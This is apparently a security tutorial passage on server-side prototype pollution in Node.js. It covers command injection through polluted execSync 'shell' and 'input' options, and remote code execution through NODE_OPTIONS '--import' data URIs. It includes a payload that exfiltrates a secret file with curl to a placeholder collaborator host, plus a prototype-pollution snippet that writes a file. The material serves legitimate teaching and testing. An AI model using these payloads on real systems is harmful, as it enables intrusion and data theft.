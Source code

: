 The `execSync()` method also accepts options object, which may be pollutable via the prototype chain. Although this doesn't accept an `execArgv` property, you can still inject system commands into a running child process by simultaneously polluting both the `shell` and `input` properties:

- `input`: just a string that is passed to the child process's `stdin` stream and executed as a system command. The shell you choose must accept commands from `stdin`.
- `shell`: lets developers declare a specific shell in which they want the command to run. It **only accepts the name of the shell's executable** and does not allow you to set any additional command-line arguments.

By polluting both of these properties, you may be able to override the command that the application's developers intended to execute and instead run a malicious command in a shell of your choosing.

>[!warning]
>The `shell` is always executed with the `-c` argument, which most shells use to let you pass in a command as a string. However, setting the `-c` flag in Node instead runs a syntax check on the provided script, which also prevents it from executing. As a result, although there are workarounds for this, it's generally tricky to use Node itself as a shell for your attack.
>
>One additional limitation of this technique is that some tools that you might want to use for your exploit also don't read data from `stdin` by default. However, there are a few simple ways around this. In the case of `curl`, for example, you can read `stdin` and send the contents as the body of a `POST` request using the `-d @-` argument.
>
>In other cases, you can use `xargs`, which converts `stdin` to a list of arguments that can be passed to a command.

Example:
```json
"shell":"vim",
"input":":! cat /home/carlos/secret | base64 | curl -d @- https://YOUR-COLLABORATOR-ID.oastify.com\n"
```


### Remote code execution via `import`

From Node 19.0.0 the `--import` flag allows you to specify a module to load. It is possible to use the `--import` command line option to execute arbitrary JavaScript without needing anything on the filesystem.

```js
--import='data:text/javascript,console.log(1337)'

let{fork} = require('child_process');
Object.prototype.NODE_OPTIONS = "--import=\"data:text/javascript,import fs from 'node:fs';fs.writeFile('/tmp/pwnd', 'pwnd', x=>1)\"";
fork("test2.js");
```

# AST Prototype Pollution

In NodeJS, AST is used in JS really often, as template engines and typescript etc. For the template engine, the structure is as shown above, and the most used two are **Handlebars** and **Pug**. [^1]


[^DOS]: https://portswigger.net/research/server-side-prototype-pollution
[^SSPP-scanner]: https://portswigger.net/bappstore/c1d4bd60626d4178a54d36ee802cf7e8
[^1]:  https://blog.p6.is/AST-Injection/